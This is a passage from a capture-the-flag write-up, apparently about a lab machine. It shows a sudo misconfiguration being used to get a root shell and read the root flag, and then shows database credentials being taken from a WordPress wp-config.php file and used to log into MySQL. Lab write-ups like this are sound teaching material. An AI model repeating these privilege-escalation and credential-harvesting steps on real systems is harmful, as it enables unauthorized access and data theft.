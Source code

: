 

### Shell

So when run with `sudo`, it runs as root:



    takis@tenten:~$ sudo fuckin id
    uid=0(root) gid=0(root) groups=0(root)



So `sudo fuckin bash` gives a root shell:



    takis@tenten:~$ sudo fuckin bash
    root@tenten:~#



And I can grab `root.txt`:



    root@tenten:/root# cat root.txt
    f9f7291e************************



## Beyond Root

I wanted to come back with a shell and database access to look at what
was actually going on in the WP plugin vulnerability. First, I needed
the creds, which are in the `wp-config.php` file in `/var/ww.md`:



    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');

    /** MySQL database username */
    define('DB_USER', 'wordpress');

    /** MySQL database password */
    define('DB_PASSWORD', 'SuperPassword111');

    /** MySQL hostname */
    define('DB_HOST', 'localhost');



I can connect with `mysql`:



    takis@tenten:/var/www.md$ mysql -u wordpress -pSuperPassword111 wordpresss
    ...[snip]...
    mysql>



Looking at the tables, the `wp_posts` table is there:
